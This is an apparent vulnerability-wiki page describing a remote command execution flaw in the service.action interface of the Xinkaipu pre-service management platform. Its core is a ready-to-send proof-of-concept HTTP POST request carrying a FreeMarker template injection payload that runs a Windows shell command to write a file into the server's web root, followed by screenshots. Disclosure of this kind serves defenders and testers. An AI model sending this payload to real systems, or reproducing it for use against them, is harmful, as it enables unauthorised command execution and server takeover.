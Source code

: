 # Xinkaipu Pre-service management platform service.action remote command execution vulnerability

## Vulnerability Description

The service.action interface of the new Kaipu pre-service management platform has a remote command execution vulnerability, and an attacker can obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">New Proprietary Service Management Platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691989411711-5c56958b-5bbf-4b98-89c2-4151004d3504.png)

Verify POC

```http
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691990575177-be0f5d8c-cd7e-4274-a782-6fd506f39232.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691990627821-b50c7d15-6d79-4fff-8aa8-e546cec37abf.png)